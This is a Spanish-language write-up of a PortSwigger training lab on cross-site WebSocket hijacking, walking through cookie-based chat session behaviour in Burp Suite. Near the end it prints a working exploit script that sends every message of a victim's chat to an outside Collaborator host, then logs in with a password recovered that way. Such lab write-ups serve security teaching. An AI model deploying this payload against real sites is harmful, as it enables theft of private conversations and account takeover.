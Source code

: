 ```yaml
---
title: Cross-site WebSocket hijacking
description: Laboratorio de Portswigger sobre WebSockets
date: 2025-02-19 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger Labs
  - WebSockets Attacks
tags:
  - Portswigger Labs
  - WebSockets Attacks
  - Cross-site WebSocket hijacking
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Para `resolver` este `laboratorio`, debemos `explotar` la funcionalidad de `WebSockets` para realizar un ataque de `Cross-Site WebSocket Hijacking`. Esto nos permitirá `interceptar` el `historial del chat` de la víctima y usar la información obtenida para `comprometer su cuenta`

---

## Guía de WebSocket Attacks

`Antes` de completar este laboratorio es recomendable leerse esta guía de websocket attacks [https://justice-reaper.github.io/posts/WebSocket-Attacks-Guide/](https://justice-reaper.github.io/posts/WebSocket-Attacks-Guide/)

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/WebSocket-Attacks-Lab-2/image_1.png)

Pulsamos sobre `Live chat` y vemos que hay un `chat` de `IA`. Este tipo de chats suelen ser `LLM's`, un tipo de `modelo de IA` entrenado con grandes volúmenes de texto para procesar y generar lenguaje natural. Estos modelos, como `ChatGPT`, son una subcategoría dentro del `NLP (Natural Language Processing)` y se especializan en tareas como `traducción`, `resumen`, `análisis de texto` y `generación de respuestas`

![](/assets/img/WebSocket-Attacks-Lab-2/image_2.png)

Si nos `abrimos` el `inspector` de `Chrome` vemos que tenemos una `cookie` asignada

![](/assets/img/WebSocket-Attacks-Lab-2/image_3.png)

Si accedemos a `Proxy > WebSockets history` podemos ver los `datos enviados` y `recibidos`, en el `primer mensaje` vemos el `handshake`, el `handshake` nos indica que ya estamos listos para poder `enviar mensajes`

![](/assets/img/WebSocket-Attacks-Lab-2/image_4.png)

El `segundo mensaje` que obtenemos es al `conexión` del `otro usuario`

![](/assets/img/WebSocket-Attacks-Lab-2/image_5.png)

`Enviamos` un `mensaje`

![](/assets/img/WebSocket-Attacks-Lab-2/image_6.png)

Si nos vamos a `Burpsuite` podemos `ver` el `mensaje enviado`

![](/assets/img/WebSocket-Attacks-Lab-2/image_7.png)

Si `inspeccionamos` el `código` vemos que se está usando `wss`, este es un `socket seguro`, el cual funciona sobre `HTTPS` y `cifra` las `comunicaciones` entre `cliente` y `servidor` mediante `TLS/SSL `

![](/assets/img/WebSocket-Attacks-Lab-2/image_8.png)

Si nosotros `recargamos` la `web` con `F5` podemos ver como se `cargan todos los mensajes nuevamente` y se `restaura` el `chat` al `completo`. Podemos comprobar esto desde `Burpsuite`, `cada vez que recargamos la web se cargan todos los mensajes` y se vuelve a `establecer` la `conexión`

![](/assets/img/WebSocket-Attacks-Lab-2/image_9.png)

Si `borramos` nuestra `cookie` y `refrescamos` la `página` se nos `asigna` una `nueva cookie` y un `nuevo chat`

![](/assets/img/WebSocket-Attacks-Lab-2/image_10.png)

![](/assets/img/WebSocket-Attacks-Lab-2/image_11.png)

Si `sustituimos` la `cookie` por la `anterior`, podemos volver a `recuperar` los `chats`

![](/assets/img/WebSocket-Attacks-Lab-2/image_12.png)

Una vez validado esto, nos dirigimos a `Burpsuite Collaborator`, `pulsamos` en `Copy to clipboard`, `copiamos` la `dirección url` en el `script` y copiamos el `endpoint` del `chat` también para poder `establecer` una `conexión`. Una vez tenemos el `exploit` listo nos dirigimos al `Exploit server` y lo pegamos

```
<script>
    var ws = new WebSocket('wss://0a3500160349bd8c84a1ab7400a10009.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://efxlbue9fvngrpy1kw48884j3a91xrlg.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

Cuando `pulsemos` sobre `Deliver exploit to victim` le `enviaremos` la `url` del `servidor` donde se `aloja` nuestro `exploit` y la víctima hará `click` sobre ella. Cuando eso ocurra, `obtendremos` sus `chats` en nuestro `subdominio` de `Burpsuite Collaborator`, en uno de esos `chats` podemos ver la `contraseña` del usuario `carlos`

![](/assets/img/WebSocket-Attacks-Lab-2/image_13.png)

Pulsamos sobre `My account` e `iniciamos sesión` con las credenciales `carlos:no5jm5dbv3e89jna369b`

![](/assets/img/WebSocket-Attacks-Lab-2/image_14.png)

![](/assets/img/WebSocket-Attacks-Lab-2/image_15.png)
